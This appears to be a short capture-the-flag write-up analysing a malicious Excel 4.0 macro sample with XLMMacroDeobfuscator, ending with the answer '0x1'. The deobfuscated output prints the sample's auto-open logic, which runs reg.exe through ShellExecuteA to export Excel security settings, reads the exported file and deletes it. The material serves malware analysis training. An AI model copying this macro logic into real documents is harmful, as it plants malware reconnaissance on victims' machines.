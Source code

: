 ```
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/

    
XLMMacroDeobfuscator(v0.2.6) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/remnux/xlm/c38-xlm-macros/sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin

Unencrypted xls file

[Loading Cells]
SHRFMLA (sub): 0 0 1 8 6
SHRFMLA (sub): 9 9 1 8 8
SHRFMLA (sub): 19 19 1 7 7
SHRFMLA (sub): 26 26 0 7 8
auto_open: auto_open->'CSHykdYHvi'!$J$727
[Starting Deobfuscation]
CELL:J727      , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","C:\Windows\system32\reg.exe","EXPORT HKCU\Software\Microsoft\Office\GET.WORKSPACE(2)\Excel\Security c:\users\public\1.reg /y",0,5)
CELL:J728      , PartialEvaluation   , =WAIT("45130.30471064814600:00:03")
CELL:J729      , FullEvaluation      , FOPEN("c:\users\public\1.reg",1)
CELL:J730      , PartialEvaluation   , =FPOS(FOPEN("c:\users\public\1.reg",1),215)
CELL:J732      , PartialEvaluation   , =FCLOSE(FOPEN("c:\users\public\1.reg",1))
CELL:J733      , PartialEvaluation   , =FILE.DELETE("c:\users\public\1.reg")
--snip--;
```
- We can see the key specified as `1`.
## Answer
```
0x1
```

&nbsp;
